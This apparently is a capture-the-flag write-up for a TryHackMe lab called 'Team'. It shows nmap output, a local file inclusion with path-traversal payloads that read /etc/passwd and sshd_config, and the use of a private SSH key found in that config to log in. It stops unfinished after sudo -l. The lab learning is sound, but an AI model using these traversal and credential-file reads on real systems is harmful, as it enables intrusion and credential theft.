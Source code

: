 ## Team
https://tryhackme.com/room/teamcw

## Enum
```
nmap -Pn -sC -sS -sV ip.thm -p 21,22,80 -A

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:4.2
Aggressive OS guesses: Linux 4.2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
![image](https://user-images.githubusercontent.com/6504854/194690167-ffe29242-bf93-42a1-b0b9-35d288856d35.png)

🚩 Hint: dev 

```
echo 10.10.250.37 team.thm >> /etc/hosts
echo 10.10.250.37 dev.team.thm >> /etc/hosts
```

```
curl http://dev.team.thm/                                 

<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
                                                                                                
curl http://dev.team.thm/script.php?page=teamshare.php

<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  Place holder for future team share </body>
</html>
```

```
curl http://dev.team.thm/script.php?page=../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```

![image](https://user-images.githubusercontent.com/6504854/194690815-ce494dcd-640b-4835-95eb-600fee7d4d75.png)

🚩 ffuf scaned via LFI list and found ssh_conf files. 

page=/home/dale/.ssh/id_rsa and page=/home/gyles/.ssh/id_rsa couldn't find ssh keys 😞

```
curl http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
~~~
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----

```
🚩 Copy + paste the key and remove # (commented). Save as id_rsa and chmod 600 id_rsa.

## Flag

```
ssh -i id_rsa dale@10.10.250.37

```
![image](https://user-images.githubusercontent.com/6504854/194691494-f6a176f1-a727-4a34-a069-5f59ab57f157.png)

```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

```
```
🚩

### Another Path
